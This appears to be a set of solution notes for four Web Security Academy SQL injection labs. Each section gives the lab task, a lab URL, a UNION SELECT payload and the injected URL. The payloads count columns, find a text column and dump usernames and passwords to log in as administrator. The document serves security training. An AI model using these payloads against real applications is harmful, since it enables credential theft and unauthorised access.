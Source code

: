 # UNION attacks

## SQL injection UNION attack, determining the number of columns returned by the query

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.

Target URL:

```
https://aca31f9a1ef0c68680045fec007d0007.web-security-academy.net/filter?category=Gifts
```

Solution:

```SQL
' UNION SELECT NULL,NULL,NULL--
```

Modified URL:

```
https://aca31f9a1ef0c68680045fec007d0007.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL--
```

## SQL injection UNION attack, finding a column containing text

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

Target URL:

```
https://ac6c1f941e2e562780c94cde00ea0047.web-security-academy.net/filter?category=Gifts
```

Solution:

```SQL
' UNION SELECT NULL,'O2ILLb',NULL--
```

Modified URL:

```
https://ac6c1f941e2e562780c94cde00ea0047.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,'O2ILLb',NULL--
```

## SQL injection UNION attack, retrieving data from other tables

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

Target URL:

```
https://ac051fca1f14458380d541dd008a005e.web-security-academy.net/filter?category=Corporate+gifts
```

Solution:

```SQL
' UNION SELECT username, password FROM users--
```

Modified URL:

```
https://ac051fca1f14458380d541dd008a005e.web-security-academy.net/filter?category=Corporate+gifts'+UNION+SELECT+username,+password+FROM+users--
```

## SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

Target URL:

```
https://acbf1f841e3d61b180d8c41a00c4008c.web-security-academy.net/filter?category=Corporate+gifts
```

Solution:

```SQL
' UNION SELECT NULL, username || '~' || password FROM users--
```

Modified URL:

```
https://acbf1f841e3d61b180d8c41a00c4008c.web-security-academy.net/filter?category=Corporate+gifts'+UNION+SELECT+NULL,+username+||+'~'+||+password+FROM+users--
```